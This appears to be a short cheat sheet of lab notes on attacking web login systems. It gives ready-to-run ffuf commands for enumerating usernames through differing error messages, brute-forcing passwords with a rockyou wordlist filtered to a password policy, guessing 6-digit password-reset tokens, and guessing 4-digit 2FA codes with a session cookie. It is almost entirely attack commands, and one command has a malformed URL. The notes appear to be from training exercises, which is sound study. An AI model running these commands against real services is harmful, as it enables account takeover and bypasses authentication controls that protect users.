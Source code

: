 ____

#  Differing Error Messages

```bash
ffuf -w /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -u http://83.136.254.47:56265/index.php -X POST -d "username=FUZZ&password=invalid" -fr "Unknown user" -H "Content-Type: application/x-www-form-urlencoded"
```

# Brute-Forcing Passwords

- contains at least one upper-case character
- contains at least one lower-case character
- contains at least one digit
- minimum length of 10 characters

```bash
grep '[[:upper:]]' /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{10}' > custom_wordlist.txt
```

```bash
ffuf -w ./custom_wordlist.txt -u http://94.237.57.154:37595/index.php -X POST -H "Content-Type: a  
pplication/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -fr "Invalid username or password."
```

# Brute-Forcing Password Reset Tokens

```bash
ffuf -w /usr/share/seclists/Fuzzing/6-digits-000000-999999.txt -u http://http://83.136.254.47:36180/reset_password.php?token=FUZZ -fr "The provided token is invalid"
```

# Brute-Forcing 2FA Codes

```bash
ffuf -w /usr/share/seclists/Fuzzing/4-digits-0000-9999.txt -u http://94.237.50.176:35539/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=39fap95ns90q60bq5r570nnskf" -d "otp=FUZZ" -fr "Invalid 2FA Code"
```